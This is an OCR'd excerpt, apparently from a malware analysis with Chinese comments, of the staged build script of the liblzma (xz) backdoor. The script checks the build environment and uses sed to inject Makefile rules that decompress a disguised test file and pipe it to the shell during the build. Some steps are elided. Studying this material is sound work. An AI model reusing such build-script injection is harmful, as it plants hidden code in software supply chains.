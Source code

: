```
    eval `grep ^enable_static=\' config.status`
    eval `grep ^gl_path_map=\' config.status`
    eval $zrKccj
    # 查找config.status文件中是否有D["HAVE_FUNC_ATTRIBUTE_IFUNC"]=" 1"
    if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
        exit 0
    fi
    # 查找config.h文件中是否有#define HAVE_FUNC_ATTRIBUTE_IFUNC 1
    if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
        exit 0
    fi
    # 判断enable_shared选项的值是否为yes
    if test "x$enable_shared" != "xyes";then
        exit 0
    fi
    # 判断build选项的值中是否包含"x86_64"和"linux-gnu"
    if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
        exit 0
    fi
    ......
    # 判断是否存在./debian/rules文件以及$RPM_ARCH环境变量设置为x86_64
    if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64";then
        ......
        # 修改/src/liblzma/Makefile文件的内容
        eval $zrKcTy
        b="am__test = $U"
        sed -i "/$j/i$b" src/liblzma/Makefile || true
        d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
        b="am__strip_prefix = $d"
        sed -i "/$w/i$b" src/liblzma/Makefile || true
        b="am__dist_setup = \$(am__strip_prefix) | xz -d 2> /dev/null | \$(SHELL)"
        sed -i "/$E/i$b" src/liblzma/Makefile || true
        b="\$(top_srcdir)/tests/files/\$(am__test)"
        s="am__test_dir=$b"
        sed -i "/$Q/i$s" src/liblzma/Makefile || true
        h="-Wl,--sort-section=name,-X"
        if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
            h=$h",-z,now"
        fi
        j="liblzma_la_LDFLAGS += $h"
        sed -i "/$L/i$j" src/liblzma/Makefile || true
        sed -i "s/$O/$C/g" libtool || true
        k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
        sed -i "s/$u/$k/" src/liblzma/Makefile || true
        l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
        export top_srcdir='\$(top_srcdir)'; \\\\\n\
        export CC='\$(CC)'; \\\\\n\
        export DEFS='\$(DEFS)'; \\\\\n\
        export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
        export INCLUDES='\$(INCLUDES)'; \\\\\n\
        export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
        export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
        export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
        export CFLAGS='\$(CFLAGS)'; \\\\\n\
        export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
        export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
        export libdir='\$(libdir)'; \\\\\n\
        export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
        export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
        sed rpath \$(am__test_dir) | \$(am__dist_setup) > /dev/null 2>&1";
        sed -i "/$m/i$l" src/liblzma/Makefile || true
        eval $zrKcHD
```